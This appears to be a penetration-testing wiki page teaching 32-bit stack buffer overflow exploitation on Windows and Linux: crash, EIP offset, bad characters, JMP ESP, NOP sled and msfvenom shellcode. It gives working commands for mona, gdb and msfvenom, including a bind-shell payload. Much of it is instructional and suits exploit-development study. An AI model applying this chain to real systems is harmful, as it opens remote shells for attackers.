

<!-- TITLE: Buffer Overflows -->
<!-- SUBTITLE: Methods for basic 32bit x86 Buffer Overflows on both Windows and Linux platforms -->

# Basic Theory

  1. Crash the program (Spike, Peach or custom script)
  2. Control EIP
  3. Confirm what other registers are data has overwritten (!mona findmsp)
  4. Check for bad characters
  5. Locate a suitable DLL pointer that will return execution to a register we control (jmp esp instruction for example)
  6. Generate our shellcode (remember to -b '\x00' to exclude any bad characters)
  7. Send our final exploit buffer

### Register layout when a function is pushed onto the stack


### Data \(A=0x41\) written to the stack, however, the buffer has not been overflowed


### Allocated address space overflowed and  overwritten some of the other registers including EIP


# Windows Methodology

## Generate a crash overwriting EIP


See Application Fuzzing for example on generating a crash

## Finding EIP Offset

We start by generating a cyclic pattern to the same size which caused the program to crash. This pattern is unique and enables us to search parts of it to identify the offset.

**Mona**
```
!mona pattern_create 1000
```

**msf-pattern_create**
```
msf-pattern_create -l 2300
```

Now we need to locate the offset (number of bytes preceding EIP), once we identify this number we will know exactly how many bytes into our data to put our new EIP address.

**Mona**
```
# Print details of entire cyclic string from all registers.
!mona findmsp
```

**msf-pattern_offset**
```
# Locate EIP offset exactly
!mona pattern_offset 37123AFF
```

```text
msf-pattern_offset -l 2300 -q 386F4337
```


## Test EIP Overwrite

Pinpoint EIP by injecting a new overflow pattern with "A" until offset location of EIP, then 4 x "B" then the rest of the bytes to cause the overflow.

If we see EIP = 0x42424242 then we have confirmed exact overwrite of EIP.


## Testing Bad Characters

One simple test is to send all 255 hex encoded ASCII characters and make sure all of them show up inside the debugger \(follow register in dump\).

We can use mona to generate the characters if required:

```text
!mona bytearray
```

Add these just after EIP.

We can then use `mona` to confirm any differences and detect bad characters. If bad characters are detected we need to regenerate the bytearray excluding the bad character which updates mona's binary file on disk which is compared with the bytearray

    !mona compare -f c:\logs\brainpan\bytearray.bin -a 0x0022f960 (address contained on ESP)


## Executing Shellcode

### Use EIP to direct execution to another register containing part of our attack string.

1. `!mona findmsp` or use `msf-nasm_shell` \(enter: jmp esp which results in FFE4\)
2. Check if ESP, EBP, ESI or EDI contain our attack string
3. Confirm how many bytes we have to play with via `findmsp` output for each register. Depending on the length of the overflow will determine the sizes reported
4. Follow register \(Right Click &gt;  Follow In Dump\) on the stack and confirm where in the attack pattern it starts, i.e. how many bytes into the "C" pattern is the register?

### We need to find a fixed location to jump from \(Windows Vista\) since the register addresses will change in future execution of the program, however, DLL's remain the same!

1. Check the `findmsp` output and idenitfy any DLL's related to the application that are not using any protections such as SafeSEH/ASLR etc.
2. You can also use the following to find all JMP ESI calls within a particular loaded DLL: `!mona jmp -r esi -m user32`
3. If using msf-nasm\_shell above search for your instruction using:`!mona find -s “\xff\xe4” -m essfunc.dll`
4. Use a DLL that's specific to the application or if not one is not available then use `msvcrt.dll`

> DLL's are loaded statically to the memory addresses pre Windows Vista

### Set a breakpoint at your EIP location and confirm it triggers and you end up on your next instruction at JMP ESP \(or whatever location

1. `bp 0x77c354`or alternatively you can search for memory location and press `F2`
2. Use `F7` to step through and confirm the PUSH ESP and RETN jumps over to our "D" \(potential shellcode\)
3. Remember endianness when updating our fuzzer with the EIP location above to jump to the dll PUSH ESP operation which will send control to the overwritten ESP where our shellcode will be

### Generating shellcode


> If EIP and ESP are very close together we'll need to add an instruction to add some space to ESP
>
>     metasm: add esp, 1500h
>     metasm: sub esp, -1500h
>

Another method is to insert of NOP's prior to the shellcode

Adding NOP's to your shellcode

    ... ... + "\x90" * 30 + shellcode

#### Generated shellcode using `msfvenom`

##### Windows Bind Shell
`msfvenom -p windows/shell_bind_tcp -f python -b '\x00\x40\x0a\x0d'`

For more shellcode examples see the [Generating Shellcode](generating-shellcode.md) section.

## Summary

1. Crash the program \(Spike, Peach or custom script\)
2. Control EIP
3. Confirm what other registers are data has overwritten \(!mona findmsp\)
4. Check for bad characters
5. Locate a suitable DLL pointer that will return execution to a register we control \(jmp esp instruction for example\)
6. Generate our shellcode \(remember to -b '\x00' to exclude any bad characters\)
7. Send our final exploit buffer

## Mona Reference

| Description | Command |
| :--- | :--- |
| Set mona working directory | !mona config -set workingfolder c:\logs\%p |
| Generate byte array for bad characters | !mona bytearray |
| Byte array excluding known bad character | !mona bytearray -cpb \x00 |
| Compare byte array to detect bad characters | !mona compare -f c:\logs\slmail\bytearray.bin -a 0x01cea154 \(address contained on ESP\) |

# Linux Methodology

Confirm program is vulnerable to an overflow type attack, generally resulting in a segmentation fault

## Causing a segmentation fault

* Submit large inputs
* Fuzzing, etc.

`run [argv]`

`run $(python -c 'print "A" * 40 + "B" * 4')`

``run `python overflow.py``

## Setting breakpoints

`break 1`

`break 2`

## Determine stack frame and viewing register contents

`x/16xw $esp`

`x/1xw $ebp`

The stack frame for each function is defined within the bounds of $esp to $ebp. The next 4 byte word after $ebp would be the return address. Can also be found by issuing

`x $ebp+4`

### Displaying registers

`info registers`

## Disassembling a function()

`disass main`

## Finding instructions

Checking for certain instructions such as `jmp esp`, `jmp eax` within a program. We want to find a memory location of an jump instruction or alternative that will then jump over to our controlled register such as $esp or $eax and execute our instructions. This location we would use to overwrite $eip.

`msfelfscan -j esp -f ./program`

`msfelfscan -j eax -f ./program`

> Remember endianness

## Generating shellcode

As usual, we can generate shellcode using `msfvenom`. Some useful shellcode we can use include:

```text
# Execute a command
msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x00\x40\x0a\x0d'

# Local TCP bind_shell
msfvenom -p windows/shell_bind_tcp -f python -b '\x00\x40\x0a\x0d'
```


# Samples

## Checking for bad characters

```python
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```

These can be sent after EIP. Follow the ESP register to look for any that appear missing. These will be potential bad characters and should be avoided. \x00 is a null and should be avoided.


# References




